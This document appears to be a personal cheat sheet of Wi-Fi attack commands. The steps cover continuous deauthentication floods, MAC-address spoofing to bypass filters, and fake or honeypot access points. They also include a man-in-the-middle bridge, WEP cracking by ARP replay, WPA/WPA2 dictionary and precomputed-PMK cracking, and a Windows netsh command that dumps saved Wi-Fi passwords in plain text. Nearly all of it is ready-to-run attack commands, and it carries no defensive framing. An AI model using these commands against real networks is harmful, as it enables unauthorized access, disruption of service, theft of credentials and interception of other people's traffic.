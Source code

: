 1. monitor mode is like promiscuous mode of the ethernet world where all the traffic can be monitored at a given time on the current channel.

**Powering up the wireless card**

2. ifconfig wlan0 up ---> start the wireless card** 

3. airmon-ng start wlan0 <channel> ---> monitor mode interface is created on top of the device for sniffing

**Check active Access points and the stations/clients connecting to it**

4. airodump-ng --band bn wlan0mon ---> make the card hop through different channel and check wifi traffic

5. mdk3 wlan0mon b -n baba ---> Creating a fake AP broadcasting beacons with SSID baba

**Finding Hidden SSIDs**

6. 
	a. Passive way - monitor the network for clients to connect
	b. active way - break all the connections between clients and Access point and further monitor the traffic for assocication traffic.
		
		(send the deauthentication notification packet to the clients)
		aireplay-ng --deauth 0 -a <BSSID> wlan0mon -D   

		--deauth 0 will continously send deauth packets
		-D disable AP detection

7. Bypassing MAC filters

		a. aireplay-ng --fakeauth 10 -e Logan wlan0mon  --> **Trying a fake authentication using the wireless card when MAC filter is off(open network)
	
		b. aireplay-ng --fakeauth 10 -e Logan wlan0mon -h <whiteListedMacAddress> --> To spoof a mac address and fool the AP to allow authentication
		
8. Cracking Shared/WEP encyption
	
		a. aireplay-ng --fakeauth 10 -e Logan wlan0mon -y <KeyStreamFile>

9. Creating random soft wifi interface

		a. airbase-ng -a AA:AA:AA:AA:AA:AA -e Logan wlan0mon

10. MiTM over Wireless

		a. airbase-ng -a AA:AA:AA:AA:AA:AA -e Logan wlan0mon -v    ---> Broadcast fake AP SSID
		b. ifconfig at0 up  ---> Power up the soft interface created
		c. 
	
		 1. brctl addbr mitm  ---> creating bridge mitm with brctl
		 2. brctl addif mitm eth0  ---> adding interfaces to the bridge
		   brctl addif mitm at0

		 3. ifconfig eth0 0.0.0.0 up
		   ifconfig at0 0.0.0.0 up

		 4. ifconfig mitm up   ---> powering up the bridge interface
		 5. dhclient mitm & ---> running dhcp client on bridge interface 	
			---> bridge the 2 interfaces (at0 with the other interface that has internet On)

**links --> https://forums.kali.org/showthread.php?17926-Fake-access-point-ettercap-sslstrip

11. Breaking WEP

		a. airodump-ng --channel 6 wlan0mon --write <fileName> --bssid <bssid>  ---> Start dumping packets on the target channel 
		b. aireplay-ng --arpreplay -e Logan -h <macAddressOfVictim> wlan0mon ---> Replay arp packets (In parallel fire this command)
		c. aircrack-ng <capFile>  ---> Start cracking with aircrack

12. Cracking WPA/WPA2 (Dictionary based attack)

		a. airodump-ng mon0 --channel 6 --essid <wifiAPName> --write <file> ---> Capture the handshake
		b. use aircrack/ cowpatty along with the dictionary
		c. aircrack -w dict <pcapCaptureFile>

13. Cracking/Decrypting with airdecap-ng/ genpmk/ cowpatty/ pyrit - faster way

		a. airdecap-ng -e <essid> -p <passPhrase> <capturedPcapFile> -b <bssid>

		Fastening up the process by pre-calculating the PMKs and then trying the Dictionary attack with the already generated PMKs.

		b. genpmk -f <dictionaryFile> -s <ESSID> -d <outputFile>  ---> Preshared key or PMK list creation
		c. cowpatty -d prePmks -s "Logan" -r malWpa2-01.cap  ---> Cracking with cowpatty

	**With Pyrit**

		d. pyrit -r <capFile containing handShake> analyze   ---> analyze the capture pcap file and derive handshakes and APs
		e. pyrit -o <pmkFile> -i <dictionaryFile> -e <ssid> passthrough

		f1. cowpatty -d <pmkFile> -s <ssid> -r <capturedPcapFile>
		
			or

		f2. pyrit -r <pcapfile> -i <precoputedPMKfile> attack_cowpatty	

		With Aircrack - analyze the handshake capture file

		g. aircrack -w dict <pcapCaptureFile>	

14. Creating a WEP, WPA fakes access point/ Honeypots	

		a. airbase-ng --essid Popeye -a aa:aa:aa:aa:aa:aa -c 13 mon1 (WEP)
		b. airbase-ng -W 1 --essid Popeye -a cc:cc:cc:cc:cc:cc -c 13 mon1 -z 2  (WPA)
		c. airbase-ng -W 1 --essid Popeye -a dd:dd:dd:dd:dd:dd -c 13 mon4 -Z 4  (WPA2)

15. WPA_Supplicant

		**wpa_supplication.conf** 

		ctrl_interface=/var/run/wpa_supplicant
		ap_scan=1

		network={
		ssid="Pop"
		proto=WPA
		key_mgmt=WPA-PSK
		pairwise=CCMP TKIP
		group=CCMP TKIP WEP104 WEP40
		psk="boloTarara"
		priority=2
		}

	**command**
	
		wpa_supplicant  -iwlan0 -c wpa_supplicant.conf
	
16. Windows WiFi commands

		a. netsh wlan show interfaces --> view all wifi interfaces

		b. netsh wlan show drivers  --> extract current wifi driver information

		c. netsh wlan show networks --> view available networks


		d. netsh wlan show profiles  --> view profiles of the wifi network that the windows machine has connected 

		e. netsh wlan show profiles name="SSID" --> look at the configuration details of a previously connected AP

		f. netsh wlan connect name="kela" interface="Wi-Fi" --> Connect to a wifi network from cmd

		g. netsh wlan export profile name="kela"  --> Dump the profile in an external file

		h. netsh wlan show profile name="kela" key=clear  --> Dump wifi password in plain text

		i. netsh wlan set hostednetwork mode=allow ssid=Ambanis key=l@urA1234     --> Creating a hosted network on windows
    		netsh wlan start hostednetwork






